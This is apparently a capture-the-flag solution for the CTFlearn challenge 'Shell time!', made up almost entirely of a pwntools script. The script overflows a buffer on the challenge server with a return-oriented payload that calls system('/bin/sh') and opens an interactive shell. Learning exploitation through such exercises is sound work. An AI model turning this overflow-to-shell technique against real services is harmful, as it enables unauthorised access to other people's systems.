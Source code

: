 # [Shell time!](https://ctflearn.com/challenge/1012)

[Previous problem](./1011.md)

**Return Oriented Programming** (ROP)

```python
from pwn import *

context.binary = './server'
elf = context.binary

p = remote('thekidofarcrania.com', 4902)
# p = process('./server')

s = p.recvuntil(b'Input some text: ')
addr = str(s.split(b'\n')[4].split(b' ')[0])[2:-1] # starting address of buffer

# 60 bytes of junk (as in prev problem) + system address + 0 (exit) + address of "/bin/sh" string + "/bin/sh" string
payload = b'A'*60 + p32(elf.plt.system) + p32(0) + p32(int(addr, 16)+72) + b'/bin/sh'

p.sendline(payload)
p.interactive()
```
